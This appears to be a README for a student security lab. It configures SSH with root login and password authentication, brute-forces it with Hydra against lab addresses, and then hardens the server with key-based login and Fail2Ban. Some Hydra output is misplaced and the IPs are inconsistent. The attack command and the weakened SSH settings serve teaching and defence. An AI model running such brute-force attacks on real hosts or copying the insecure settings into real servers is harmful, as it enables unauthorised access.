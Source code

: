 # POC-TASK--2
✅ SETUP:

step 1: Enable ssh 
        
  # Update package list and install OpenSSH server
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt update && sudo apt install openssh-server -y

  # Enable ssh to start on boot
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable ssh

  # Verify ssh is running
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl status ssh

step 2: Allow Root login & Password Authentication
  
  # Allow root login
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/#permitRootLogin prohibit-password/permitRootLogin yes/' /etc/ssh/sshd_config

  # Enable password-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/passwordaAuthentication no/passwordAuthentication yes/' /etc/ssh/sshd_config

  # Restart ssh to applay changesHydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-17 21:50:56
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
[DATA] attacking ssh://178.0.09:22/
[22][ssh] host: 178.0.0.9   login: root   password: *****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-17 21:50:59
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl restart ssh 

  # Verify ssh is listening on port 
        ┌──(monish㉿vbox)-[~]
        └─$ ss -tlnp | grep ssh
        
✅ EXPLOIT: BRUTE-FORCE ATTACK:

step 3: perform a brute-force attack on ssh

  # Run Hydra brute-force attack on ssh
        ┌──(monish㉿vbox)-[~]
        └─$ hydra -l root -p passwords.txt ssh://10.0.2.15 -t 4

  Hydra (https://github.com/van-thc/thc-hydra) starting at 2025-03-17 20:40:6
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
  [DATA] attacking ssh://10.0.2.15/
  [22][ssh] host: 178.0.0.9   login: root   password: @@@@
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/van-thc/thc-hydra) finished at 2025-03-17 20:40:9

✅ MITIGATION:

 step 4: ssh hardening & mitigation

   # Disable root login for ssh
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config

   # Enable key-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ mkdir -p ~/.ssh && chmod 700 ~/.ssh

   # Generate ssh key pair
        ┌──(monish㉿vbox)-[~]
        └─$ ssh-keygen -t rsa -b 4096

   Generating public/private rsa key pair.
   Enter file in which to save the key (/home/monish/.ssh/id_rsa): 
   Enter passphrase for "/home/monish/.ssh/id_rsa" (empty for no passphrase): 
   Enter same passphrase again: 
   Your identification has been saved in /home/monish/.ssh/id_rs
   Your public key has been saved in /home/monish/.ssh/id_rsa.pub
   The key fingerprint is:
   SHA256:*********************************** 
   The key's randomart image is:
   +---[RSA 4096]----+
   |  .=o+*+=B*= .   |
   |  ..O=.+*B=.o    |
   |   =.oo .E=  .   |
   |    .  ..o. . .  |
   |        S  . + . |
   |            = ...|
   |           o oo o|
   |            . .+ |
   |             ..  |
   +----[SHA256]-----+

   # Disable password authentication 
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config

   # Reset ssh to apply changes
        ┌──(monish㉿vbox)-[~]
        └─$  sudo systemctl restart ssh

step 5: Prevent Brute-force Attacks with Fail2Ban

   # Install Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt install -y fail2ban

   # Enable and start Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable fail2ban
        sudo systemctl start fail2ban

   # Configure Fail2Ban for ssh protection
        ┌──(monish㉿vbox)-[~]
        └─$ sudo nano /etc/fail2ban/jail.local

   # Restart Fail2Ban to apply settings
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl restart fail2ban
   
   # Check Fail2Ban status for SSH
         ┌──(monish㉿vbox)-[~]
         └─$ sudo fail2ban-client status sshd

   # Login in Root
          ┌──(monish㉿vbox)-[~]
          └─$ ssh root@178.0.0.9
